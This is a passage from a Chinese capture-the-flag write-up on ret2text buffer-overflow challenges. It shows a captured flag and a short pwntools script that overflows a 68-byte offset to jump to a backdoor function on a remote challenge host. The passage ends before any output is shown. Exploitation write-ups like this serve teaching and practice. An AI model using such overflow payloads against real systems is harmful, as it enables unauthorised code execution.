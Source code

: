 运行结果如下

![ret2text-flag](assets\ret2text-flag.png)

flag:

> flag{300c17b3-83e5-4f37-8ce3-9024890dd069}

### 异构

和**ret2text**一样的做法，不过指令集和架构不同。查看IDA发现**vuln**读取64字节但无限制，32位程序,偏移位**64+4=68**字节，**backdoor**函数从**0x400844**开始，编写脚本。

```python
from pwn import *

r = remote("47.76.55.63",27107)

move = 0x40+4
payload = move * b'a' + p32(0x400844)

r.sendline(payload)
r.interactive()
```

运行结果如下
